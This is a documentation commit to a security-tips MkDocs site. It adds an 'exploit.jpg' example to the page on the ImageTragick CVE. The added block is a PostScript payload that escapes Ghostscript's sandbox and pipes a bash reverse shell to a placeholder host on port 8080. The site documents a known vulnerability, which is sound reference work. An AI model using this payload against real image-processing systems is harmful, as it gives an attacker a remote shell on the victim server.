

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/cve/CVE-2016-3714.md, in a window 1280 px wide and 900 px high, scrolled down 475 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add exploit to ImageTragick CVE

````diff
--- a/docs/cve/CVE-2016-3714.md
+++ b/docs/cve/CVE-2016-3714.md
@@ -23,6 +23,16 @@ pop graphic-context
 </svg>
 ```
 
+`exploit.jpg`
+```
+%!PS
+userdict /setpagedevice undef
+legal
+{ null restore } stopped { pop } if
+legal
+mark /OutputFile (%pipe%bash -c 'bash -i >& /dev/tcp/<host>/8080 0>&1') currentdevice putdeviceprops
+```
+
 ## Others vulnerabilities
 
 There is others known vulnerabilities:
````
